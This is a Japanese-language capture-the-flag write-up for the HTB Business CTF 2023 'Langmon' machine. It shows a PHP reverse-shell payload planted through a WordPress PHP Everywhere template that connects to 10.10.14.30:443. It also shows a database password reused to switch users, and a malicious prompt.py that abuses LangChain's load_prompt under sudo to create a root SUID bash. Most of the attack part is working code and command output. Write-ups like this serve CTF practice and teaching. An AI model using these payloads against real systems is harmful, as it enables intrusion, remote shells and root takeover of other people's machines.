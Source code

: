 ```yaml
---
layout: post
title: "[Fullpwn] Langmon (600 pts, x solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Fullpwn_Langmon
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
N/A

## Solution
### Enumeration
### Foothold
1. Wordpressにユーザ登録後、ログインする
1. Templatesメニュー >　ADD NEW で新規テンプレートを作成する
1. テンプレート内に "[php_everywhere]"を追記する
1. テンプレート一覧に戻り、作成したテンプレートの編集画面に移動する
1. PHP Everywhereの欄に以下のペイロードを追記し、テンプレートを保存する

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"');?>
```

1. nc でリバースシェルを待ち受ける
1. テンプレートをプレビューする

### User
1. wp-config.phpからDBの資格情報を入手する。

```
password: SNJQvwWHCK
```

1. 入手した資格情報でdeveloperにユーザを切り替える

```sh
su developer
```

### Root
1. `sudo -l`を実行すると、"/opt/prompt_loader.py"をルートで実行できることが確認できる
```sh
developer@langmon:~$ sudo -l
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

- /opt/prompt_loader.py

```python
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

1. 以下で解説されている脆弱性を悪用する
https://github.com/hwchase17/langchain/issues/4849

1. ロードするprompt.pyを作成した。内容はSUIDフラグを持つbashを生成するもの。

- prompt.py

```python
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
```

1. 以下の通りルートを取得できた

```sh
developer@langmon:~$ sudo /opt/prompt_loader.py prompt.py
developer@langmon:~$ ll /tmp
total 1404
drwxrwxrwt  2 root     root        4096 Jul 15 04:25 ./
drwxr-xr-x 19 root     root        4096 Jul  5 11:21 ../
-rwsrwxrwx  1 root     root     1396520 Jul 15 04:25 bash*
-rw-------  1 www-data www-data   28948 Jul 15 04:07 phpJSuHOo
developer@langmon:~$

developer@langmon:~$ /tmp/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```